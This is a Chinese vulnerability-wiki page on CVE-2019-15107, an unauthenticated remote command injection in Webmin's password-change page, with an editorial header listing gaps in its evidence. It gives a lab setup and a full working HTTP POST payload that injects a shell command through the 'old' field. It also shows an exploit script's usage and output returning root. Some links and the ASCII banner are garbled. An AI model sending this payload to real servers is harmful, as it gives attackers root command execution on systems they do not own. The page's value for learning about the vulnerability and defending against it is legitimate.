

# （CVE-2019-15107）Webmin 远程命令执行漏洞

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：<=1.920 claimed,lab1.910;config/package caveats absent
- 证据范围：Same environment/branch-correction/request as48;adds jas502n execution transcript but no script link

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- Broken URL includesChinese sentence/punctuation
- Malformed image tail andASCII banner line loss
- Broad<=1.920 needs exact affecteddistribution/versionconditions
- Extra transcript host differs invocation;label example not verifiedtest
- Merge sharedtext;preserve transcript attribution only after source check

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

一、漏洞简介
------------

Webmin是一个用于管理类Unix系统的管理配置工具，具有Web页面。在其找回密码页面中，存在一处无需权限的命令注入漏洞，通过这个漏洞攻击者即可以执行任意系统命令。

二、漏洞影响
------------

Webmin \<= 1.920

三、复现过程
------------

### 环境搭建

执行如下命令，启动webmin 1.910：

    docker-compose up -d

执行完成后，访问[https://0-sec.org:10000，忽略证书后即可看到webmin的登录页面。](https://0-sec.org:10000，忽略证书后即可看到webmin的登录页面。)

### 复现

参考链接中的数据包是不对的，经过阅读代码可知，只有在发送的user参数的值不是已知Linux用户的情况下（而参考链接中是user=root），才会进入到修改/etc/shadow的地方，触发命令注入漏洞。

发送如下数据包，即可执行命令id：

    POST /password_change.cgi HTTP/1.1
    Host: 0-sec.org:10000
    Accept-Encoding: gzip, deflate
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Cookie: redirect=1; testing=1; sid=x; sessiontest=1
    Referer: https://your-ip:10000/session_login.cgi
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 60

    user=rootxx&pam=&expired=2&old=test|id&new1=test2&new2=test2

Webmin远程命令执行漏洞/media/rId27.png)

### python usage:

python CVE\_2019\_15107.py <https://0-sec.org:10000> cmd

    C:\Users\CTF\Desktop>python CVE_2019_15107.py https://10.10.20.166:10000 id

     _______           _______       _______  _______  __     _____       __    _______  __    _______  ______
    (  ____ \|\     /|(  ____ \     / ___   )(  __   )/  \   / ___ \     /  \  (  ____ \/  \  (  __   )/ ___      | (    \/| )   ( || (    \/     \/   )  || (  )  |\/) ) ( (   ) )    \/) ) | (    \/\/) ) | (  )  |\/   )  )
    | |      | |   | || (__             /   )| | /   |  | | ( (___) |      | | | (____    | | | | /   |    /  /
    | |      ( (   ) )|  __)          _/   / | (/ /) |  | |  \____  |      | | (_____ \   | | | (/ /) |   /  /
    | |       \ \_/ / | (            /   _/  |   / | |  | |       ) |      | |       ) )  | | |   / | |  /  /
    | (____/\  \   /  | (____/\     (   (__/\|  (__) |__) (_/\____) )    __) (_/\____) )__) (_|  (__) | /  /
    (_______/   \_/   (_______/_____\_______/(_______)\____/\______/_____\____/\______/ \____/(_______) \_/
                              (_____)                              (_____)
                                         python By jas502n

    vuln_url= https://0-sec.org:10000/password_change.cgi

    Command Result = uid=0(root) gid=0(root) groups=0(root)

四、参考链接
------------

> <https://www.pentest.com.tr/exploits/DEFCON-Webmin-1920-Unauthenticated-Remote-Command-Execution.html>
> <https://www.exploit-db.com/exploits/47230>
> <https://blog.firosolutions.com/exploits/webmin/>
